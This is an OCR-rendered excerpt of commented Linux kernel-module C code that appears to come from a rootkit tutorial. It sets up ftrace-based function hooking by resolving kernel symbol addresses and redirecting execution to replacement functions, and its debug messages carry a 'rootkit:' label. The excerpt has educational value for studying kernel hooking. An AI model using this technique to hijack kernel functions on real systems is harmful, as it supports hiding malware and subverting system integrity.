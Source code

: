         /* We pack all the information we need (name, hooking function, original function)
        * into this struct. This makes is easier for setting up the hook and just passing
        * the entire struct off to fh_install_hook() later on.
        * */
        struct ftrace_hook {
            const char *name;
            void *function;
            void *original;

            unsigned long address;
            struct ftrace_ops ops;
        };

        /* Ftrace needs to know the address of the original function that we
        * are going to hook. As before, we just use kallsyms_lookup_name() 
        * to find the address in kernel memory.
        * */
        static int fh_resolve_hook_address(struct ftrace_hook *hook)
        {
        #ifdef KPROBE_LOOKUP
            typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
            kallsyms_lookup_name_t kallsyms_lookup_name;
            register_kprobe(&kp);
            kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
            unregister_kprobe(&kp);
        #endif
            hook->address = kallsyms_lookup_name(hook->name);

            if (!hook->address)
            {
                printk(KERN_DEBUG "rootkit: unresolved symbol: %s\n", hook->name);
                return -ENOENT;
            }

        #if USE_FENTRY_OFFSET
            *((unsigned long*) hook->original) = hook->address + MCOUNT_INSN_SIZE;
        #else
            *((unsigned long*) hook->original) = hook->address;
        #endif

            return 0;
        }

        /* See comment below within fh_install_hook() */
        static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, struct ftrace_ops *ops, struct pt_regs *regs)
        {
            struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);

        #if USE_FENTRY_OFFSET
            regs->ip = (unsigned long) hook->function;
        #else
            if(!within_module(parent_ip, THIS_MODULE))
                regs->ip = (unsigned long) hook->function;
        #endif
        }
